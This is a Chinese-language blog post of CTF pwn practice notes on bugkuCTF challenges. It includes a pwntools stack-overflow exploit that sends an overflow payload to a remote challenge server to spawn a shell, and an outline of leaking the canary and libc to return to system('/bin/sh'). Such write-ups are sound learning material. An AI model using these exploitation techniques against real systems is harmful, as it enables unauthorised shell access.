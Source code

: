 ```yaml
---
layout: post
title: "六月份刷题"
date: 2019-06-29
categories: jekyll update
---
```


### 六月Pwn刷题

### bugkuCTF Pwn

### Pwn1

nc上去直接cat flag

### Pwn2

栈溢出，直接getshell函数

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p = process('./pwn2')
p = remote('114.116.54.89',10003)
ret_addr = 0x400751
payload = 'a'*(0x30+8)+p64(ret_addr)
p.sendline(payload)
p.interactive()
```

### pwn3--read_note

这个题目也是栈溢出

<img src="/images/posts/2019-06/1560924648211.png" >

栈溢出漏洞，但是开了`canary`和`pie`，所以我们先要利用`puts`函数泄漏`canary`，`elf_base`，和`libc_base`，然后ret到`system('/bin/sh\x00')`
